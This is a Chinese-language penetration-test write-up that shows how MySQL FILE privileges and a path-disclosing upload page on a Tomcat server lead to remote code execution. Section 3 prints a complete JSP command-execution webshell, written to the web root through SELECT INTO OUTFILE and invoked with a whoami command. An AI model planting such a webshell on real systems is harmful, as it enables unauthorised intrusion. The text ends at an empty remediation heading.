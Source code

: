 成功登录数据库：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVOqUaaMC5iceWvdeCGtZZ3A71FY4vHmU31tzLBkshncUeCtb5xa83f3jcgLVrTa5zhaedk9sntHIw/640?wx_fmt=png&from=appmsg "")  
  
查看是否具备该mysql账户是否具备FILE权限：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVOqUaaMC5iceWvdeCGtZZ3AcrFKbVWhTM05ZejksWfIfMicBQFln5EU4drlGEOxqy8PldMBicz7T8fA/640?wx_fmt=png&from=appmsg "")  
  
查看是否允许任意位置写文件，secure_file_priv字段要为空或指定目录才可以  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVOqUaaMC5iceWvdeCGtZZ3AOBZianOQicbbjOaGgFOCft1dVrp6Sg1ica9eVMeKY1ibexnlibNPezwqFLA/640?wx_fmt=png&from=appmsg "")  
  
成功写入文件到主机：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVOqUaaMC5iceWvdeCGtZZ3AQuLBVdjheUq1fabv2E5LmIMVzNdWqWkx43MKx3VibtNbITSic3xUxJcQ/640?wx_fmt=png&from=appmsg "")  
### 2.2 承接上篇——目录爆破得不够彻底  
  
用dirsearch爆破目录的时候一定要写上-r参数，这表示递归的去爆破目录，找到一层之后继续往下找，穷举完才结束。  
  
所以在这里就很幸运的找到了另外一个上传文件的接口：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVOqUaaMC5iceWvdeCGtZZ3ArAVzbSvuDG5gKnwlvibXx2Abclnac7ib3UITicI4zeC0kJfcAC38iarIXw/640?wx_fmt=png&from=appmsg "")  
  
访问得到这样一个页面：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVOqUaaMC5iceWvdeCGtZZ3AR4PP4pEUumhXiaURn8Vx4EE56PC5t7cAnVChjqulOYw0iaib7mC8s9ePw/640?wx_fmt=png&from=appmsg "")  
  
虽然选择文件上传仍然没有返回路径，但是点击最下面那个提交按钮，竟然返回了网站部署的绝对路径！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVOqUaaMC5iceWvdeCGtZZ3Ao4UGxUL8ibzB9oxiasiaWsxMZnAs4j3wWdqOaR1DJMibcGUbiaLZRf0jdHw/640?wx_fmt=png&from=appmsg "")  
  
那就尝试在d:\Apache Software Foundation\Tomcat 6.0\webapps\ROOT\这个目录下写webshell  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVOqUaaMC5iceWvdeCGtZZ3At7bK2D1lKv0wibZopTglg4nwUgcmYJv9jLnjRkBFEcNpbH1TgjqBoqA/640?wx_fmt=png&from=appmsg "")  
  
成功写入  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVOqUaaMC5iceWvdeCGtZZ3A6wrYgIDIScTH1MwDO16I9dBNsdoOGMLoibJyUMEY4ZOOicb9c2ibscTRQ/640?wx_fmt=png&from=appmsg "")  
## 三、成功getshell  
  
在数据库中执行  
  
写入一句话木马  
> SELECT '<%if("pass".equals(request.getParameter("pwd"))){java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();int a = -1;byte[] b = new byte[2048];while((a=in.read(b))!=-1){out.println(new String(b));}}%>'  
INTO OUTFILE 'D:/Apache Software Foundation/Tomcat 6.0/webapps/ROOT/1.jsp';  
  
  
  
访问/shell.jsp?pwd=pass&cmd=whoami  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVOqUaaMC5iceWvdeCGtZZ3AkLLeJUbrmD4P8qUSVibjibkXUxuicT3Sg2RwNpibosic3LUQX38thzNwAvw/640?wx_fmt=png&from=appmsg "")  
  
可以看到权限很高，甚至都不需要进一步的提权。  
## 四、总结和修复方法  
  